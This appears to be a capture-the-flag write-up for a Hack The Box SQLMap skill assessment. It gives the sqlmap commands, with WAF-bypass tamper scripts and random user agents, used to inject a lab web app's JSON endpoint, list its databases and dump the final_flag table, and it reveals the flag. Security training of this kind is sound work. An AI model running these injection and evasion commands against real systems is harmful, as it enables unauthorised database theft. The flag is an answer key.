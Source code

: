 With this, we have covered all of the main functionality of SQLMap.

# Skill Assessment

## Engagement

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

What's the contents of table final_flag?

## Solution

We have several methods for discovering the right foothold for our SQL injection:
* Open Burpsuite, enable the proxy and click all buttons of the website until you see a request with possible valid parameters (POST request in our case)
* Check the source code of `shop.html` webpage where there is a script code with the information we need.

When we get this information, we can start to use SQLMap:
```
sqlmap -u 'http://178.62.39.119:32344/action.php' -H 'Content-Type: application/json' --data '{"id":1}' --dbs -v 6
```
Look that `-v 6` is useful for verbosity, indeed in this assessment we can note in the ongoing output some string with `Hacker!!!`. It means a WAF or IPS is detecting our attack, so we need to implement some technique for bypassing these security measures. Then I tried:
```
sqlmap -u 'http://178.62.39.119:32344/action.php' -H 'Content-Type: application/json' --data '{"id":1}' --dbs --random-agent --tamper=space2comment --level=3 --risk=3 --dbms=MySQL
```
and I didn't get any strange messages. During the running of the previous command, we receive this output:
```
[WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
```
So, as suggested, we run the following:
```
sqlmap -u 'http://178.62.39.119:32344/action.php' -H 'Content-Type: application/json' --data '{"id":1}' --dbs --random-agent --tamper=between --level=3 --risk=3 --dbms=MySQL

available databases [2]:
[*] information_schema
[*] production
```
We can retrieve the information asked by the engagement by checking the table described in the initial text:
```
sqlmap -u 'http://178.62.39.119:32344/action.php' -H 'Content-Type: application/json' --data '{"id":1}' -D production -T final_flag --dump --random-agent --tamper=between --level=3 --risk=3 --dbms=MySQL

Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```
